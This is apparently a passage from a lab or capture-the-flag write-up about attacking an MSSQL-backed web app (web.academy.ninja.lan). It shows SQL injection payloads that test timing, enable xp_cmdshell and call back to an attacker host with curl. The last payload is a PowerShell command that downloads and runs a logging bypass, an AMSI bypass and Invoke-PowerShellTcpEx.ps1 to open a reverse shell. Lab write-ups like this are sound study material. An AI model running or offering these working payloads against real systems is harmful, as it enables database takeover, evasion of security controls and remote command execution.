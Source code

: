 <figure><img src="../.gitbook/assets/Pasted image 20240228150925.png" alt=""><figcaption></figcaption></figure>

Save them in a file

http://web.academy.ninja.lan/students?SearchString=er\&orderBy=Firstname Is vulnerable to SQLi, test with

```mssql
;waitfor delay '0:0:10' --
```

works, so active xp\_cmdshell

```mssql
;EXEC sp_configure 'show advanced options',1; --
;RECONFIGURE; --
;EXEC sp_configure 'xp_cmdshell',1; --
;RECONFIGURE; --
```

Open a python server localy to test if works

```mssql
;EXEC master.dbo.xp_cmdshell 'curl 192.168.58.100'; --
```

<figure><img src="../.gitbook/assets/Pasted image 20240301171852.png" alt=""><figcaption></figcaption></figure>

And with the following command i can get a reverse shell from .22(mssql server)

{% code overflow="wrap" %}
```mssql
;EXEC master.dbo.xp_cmdshell 'powershell -c "iex (iwr -UseBasicParsing http://192.168.58.100/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.58.100/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.58.100/Invoke-PowerShellTcpEx.ps1)"'; --
```
{% endcode %}
